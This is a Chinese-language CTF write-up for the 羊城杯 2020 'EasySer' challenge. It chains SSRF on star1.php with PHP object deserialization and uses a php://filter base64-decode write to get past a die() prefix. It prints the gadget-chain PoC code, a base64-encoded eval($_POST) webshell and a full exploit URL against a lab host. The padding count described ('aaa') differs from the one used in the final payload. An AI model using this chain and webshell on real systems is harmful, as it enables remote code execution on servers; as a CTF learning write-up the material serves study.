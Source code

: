 # \[羊城杯 2020]EasySer

## \[羊城杯 2020]EasySer

## 考点

* php://filter/write绕过“死亡exit”

## wp

打开链接是Apache2的默认界面，目录扫描存在robots.txt，index.php，flag.php

robots.txt提示访问star1.php

是一个URL访问的功能

![](<../../.gitbook/assets/image (8).png>)

提示`用个不安全的协议从我家才能进ser.php`

直接用star1.php访问http://127.0.0.1/ser.php，可以得到源码

{% code title="ser.php" %}
```php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }}}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this->file,$a);
    }}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }}
```
{% endcode %}

典型的php://filter的妙用，绕过“死亡exit”。`$a`为要写入的shell，`$this->file`为`php://filter/write=convert.base64-decode/resource=shell.php`

`<?php die("nononon");?>`可以被base64识别的有13个字符，shell部分需要补3个字符，即`aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+`

```php
class GWHT{
    public $hero;
}
class Yongen{ // flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;   
    }}
// <?php eval($_POST[1]);?>
$a = new Yongen("php://filter/write=convert.base64-decode/resource=shell.php","aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$b = new GWHT();
$b->hero = $a;
echo urlencode(serialize($b));
```

然后找反序列化接收的参数，Arjun爆破出来两个参数是path和c

payload

`http://c98dc05c-c266-4a0d-ba66-660f7468b652.node4.buuoj.cn:81/star1.php?c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A59%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Dshell.php%22%3Bs%3A4%3A%22text%22%3Bs%3A33%3A%22aPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2B%22%3B%7D%7D&path=http://127.0.0.1/star1.php`

访问shell即可

![](<../../.gitbook/assets/image (10).png>)

`star1.php`代码如下，可以直接触发`__toString()`

{% code title="star1.php" %}
```php
<?php
    require_once('ser.php');
    error_reporting(0);
    $str = 'url error<br>';
    $filter1= '/^http:\/\/127\.0\.0\.1\//i';
    $filter2 = '/.?f.?l.?a.?g.?/i';
    $url=$_GET['path']; 
    $c=$_GET['c']; 
    if(!preg_match($filter1, $url)){
        die($str);
    }
    if (preg_match($filter2, $url)) {
        die("??");
    }
    $text = @file_get_contents($url, false);
    print($text);

    if(isset($c)){
        echo $x = unserialize($c);
    }
    else{
        echo "your hat is too black!";
    }
?>
```
{% endcode %}
